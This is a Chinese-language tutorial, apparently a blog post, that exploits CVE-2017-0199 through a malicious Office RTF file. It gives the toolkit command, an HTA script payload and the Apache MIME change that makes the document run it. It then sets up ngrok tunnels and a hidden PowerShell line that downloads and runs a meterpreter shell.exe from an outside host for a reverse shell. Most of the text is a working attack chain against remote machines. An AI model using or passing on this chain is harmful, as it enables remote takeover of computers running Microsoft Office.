






>FireEye最近检测到使用CVE-2017-0199漏洞的恶意Microsoft Office RTF文档，这是以前从未发现的漏洞。
    CVE-2017-0199漏洞发布日期为2017年4月11号，受影响系统包括：
```
       Microsoft Office 2016
       Microsoft Office 2013
       Microsoft Office 2010
       Microsoft Office 2007
```

该漏洞利用OFFICE OLE对象链接技术，将包裹的恶意链接对象嵌在文档中，OFFICE调用[URL Moniker](https://msdn.microsoft.com/en-us/library/ms775149%28v=vs.85%29.aspx)（COM对象）将恶意链接指向的HTA文件下载到本地， [URL Moniker](https://msdn.microsoft.com/en-us/library/ms775149%28v=vs.85%29.aspx)通过识别响应头中content-type的字段信息最后调用mshta.exe将下载到的HTA文件执行起来。

首先我们要用到一个Python脚本用来生成CVE-20170199的利用脚本，项目地址为：[https://github.com/bhdresh/CVE-2017-0199](https://github.com/bhdresh/CVE-2017-0199)
里面有详细的文档就不一一介绍了。
### 生成RTF文件
  使用如下命令进行生成恶意的RTF文件

  `python cve-2017-0199_toolkit.py -M gen -w test.rtf -u http://192.168.0.104/test.rtf`


### 加入POC

  在192.168.0.104根目录下创建一个为test的rtf文件，并且将如下代码写入到该文件中
  ```
  Test CVE-2017-0199
<script>
poc=new ActiveXObject("WScript.Shell");
poc.run('%SystemRoot%/system32/calc.exe ');window.close();
</script>
  ```
### 更改MIME
 在Apache安装目录下找到conf文件夹，把里面的mime.types文件中的
 >application/rtf					rtf

替换为

 >application/hta					rtf

 然后重启Apache

### 执行poc
  重启完Apache后打开恶意的RTF文件你将看到：

  
  wr6666 弹出了计算器

  >你以为只能弹出计算器？
  >
  >这不表结束这只是开始。

### 内网穿透
科普：

      内网穿透即NAT穿透，网络连接时术语，计算机是局域网内时，外网与内网的计算机节点需要连接通，有时就会出现不支持内网穿透。就是说映射端口,能让外网的电脑找到处于内网的电脑,提高下载速度。不管是内网穿透还是其他类型的网络穿透，都是网络穿透的统一方法来研究和解决。在百科词条NAT穿越，nat穿透中有关于网络穿透的详细信息。
-----来自百度百科

简单地说就是将内网的端口映射出去，使得外网的机器可以访问内网的资源。

内网穿透的平台有很多，比如
  >1.[NATAPP 基于 ngrok 高速内网穿透](http://natapp.cn/)
  >
  >2.[Ngrok 国内免费服务器](http://qydev.com/)
  >
  >3.[Sunny-Ngrok 内网转发](http://www.ngrok.cc/)
  >
  >4.[gotunnel.org](http://gotunnel.org/)
  >
  >5.[花生壳软件-内网也能用！内网动态域名](http://hsk.oray.com/)
  >
  >6.[网络通内网端口映射](http://www.dkys.org/)

  这里使用Ngrok进行实验
 注册方式略过。

 HTTP隧道:

 
 为什么要用HTTP隧道？
 >在后面使用本机的Web环境映射出去,这样就可以通过外网来访问本机的资源（放恶意RTF文件和msf生成的shellcode）

 TCP隧道:

 
  为什么要用TCP隧道？
 >让外网的机器反弹一个shell到TCP隧道然后转发到kali下，这样kali就可以控制外网机器（反弹shell用）

### 内网穿透的利用
  下载对应的客户端版本
  这里用win10测试，建立完成HTTP、TCP隧道后连接隧道，开启本机的apache服务
  他应该是长这样的：
  
192.168.0.108是kali 的IP地址 4444为kali监听的地址

用msfvenom生成64位的shellcode（多少位的并不重要,可以直接使用windows/meterpreter/reverse_tcp）此处msfvenom的LHOST和LPORT应该是TCP隧道的IP和端口也就是server.ngrok.cc的IP和刚刚填写的反弹端口（测试用的是1419）
 所以它应该是这样的：

 

然后把shell.exe移到win10的web根目录下
然后msf应该是设置成这样的：

监听的IP是本机的（TCP隧道里填写的映射ip）,端口也是TCP隧道里填写的映射端口

 然后修改下POC并改为：
  ```
  Test
  <script>
  poc=new ActiveXObject("WScript.Shell");
  poc.run('%SystemRoot%/system32/WindowsPowerShell/v1.0/powershell.exe -windowstyle hidden (new-object System.Net.WebClient).DownloadFile(\'http://meterpreter.ngrok.cc/shell.exe\', \'c:/windows/temp/shell.exe\'); c:/windows/temp/shell.exe', 0);window.close();
  </script>

  ```
  保存为test.rtf
 >`http://meterpreter.ngrok.cc/shell.exe 是HTTP隧道把web环境映射到了http://meterpreter.ngrok.cc/所以shell.exe是在本机WEB根目录下的shell.exe`

 然后将恶意的test.rtf（这不是POC的那个test.rtf，是前文用Python脚本生成的test.rtf恶意文件），在外网的机器打开
 ***
 Then 。。。。。
 ***
 休息了下发现隧道的服务器打不开了QAQ。实验没法继续，最后一步就是在外网机器上打开，然后MS将会收到一个会话... 就不贴图了
